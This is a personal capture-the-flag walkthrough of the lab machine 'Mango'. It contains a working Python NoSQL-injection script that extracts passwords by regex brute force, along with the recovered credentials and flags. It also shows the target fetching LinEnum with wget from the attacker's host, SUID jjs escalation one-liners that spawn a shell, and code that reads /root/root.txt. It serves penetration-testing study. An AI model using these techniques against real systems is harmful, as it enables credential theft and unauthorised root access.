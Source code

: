 Mango - Linux

# Machine Details:

**IP Address :** 10.10.10.162
## Flags:
User: 79bf31c6
Root: 8a8ef79a

## Hints:
Name of the Machine - might be related to MongoDB.
SSL certificates


# Take Away
* Inspect the HTTPs website - certificates
* Make a habit of registering the hostnames locally.
* Look more into the home folder of the user, likely contains some hint

# Recon:
## nmap
scan command: `nmap -p- `
```
scan results
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)      
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))  
443

```

## Web Page found:
Https has some unknown certificate: https://10.10.10.162/

It talks about staging-order.mango.htb, added this as an hostname to /etc/hosts

Voila, there is an webpage (which was previously not present) in the http:// and not https:// webpage.

http://staging-order.mango.htb/

Has a log in screen, might be related to Mongo DB.


# Foothold :
For the login web page, Trying to use: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
the python script gives erroneous results.

The python script from https://book.hacktricks.xyz/pentesting-web/nosql-injection Gave proper output :)

## Script Used:
Notice: I guessed the name admin as the username from the certificate, and mango since the name of the machine is mango. :) - if it fails will enumerate the username as well.
```python
import requests
import string

url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "k90e8p8k65a6b0b1rgbck1tutk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                print("pass",c)
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames

usernames = ["admin","mango"]
for u in usernames:
    get_password(u)

```

Was able to find the passwords:
```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

Screen-Shot of the script output.

![f4bc96690381ae8e708dfd9567e1a274.png](../../_resources/75f312370d134f34bd6500062a08d5f5.png)


Logging into the website gave:

![38e6dd193b053e4ddcbe00572afa2b08.png](../../_resources/e593df41839d40feb9c2276e464bc6ef.png)

# User:

SSH into the box with the previous passwords:
admin - fails
mango - works :)

```
su admin
cat /home/admin/user.txt
79bf31c6c6
```

# Priv Esc:

su admin
password is the one found above.


# Root:

Checked a bunch of stuffs did not help corntab looks to be running. Might come back to this latter.

Will try to run the LinuxEnum Script.

```
Attacker Machine:
cd /root/HTB/LOCAL/LinEnum
python -m SimpleHTTPServer 8080

Target Machine:
wget http://10.10.15.72:8080/LinEnum.sh
```
Interesting Findings:
```


[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] Possibly interesting SUID files:                                              
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs      
```

Lets try:
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

This Freezes but we see #

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc ls /root/').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Did not work :(

sh -c 'cp $(which jjs) .; chmod +s ./jjs'
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p cat /root/root.txt').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()
Java.type('java.lang.Runtime').getRuntime().exec('ls -la /root/').waitFor()
```

looked more into the home folder of the user.

```
ls -la /home/admin
found a file for jjs history; found this code snippet..

var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }

```

Works :)
Owned the Root.
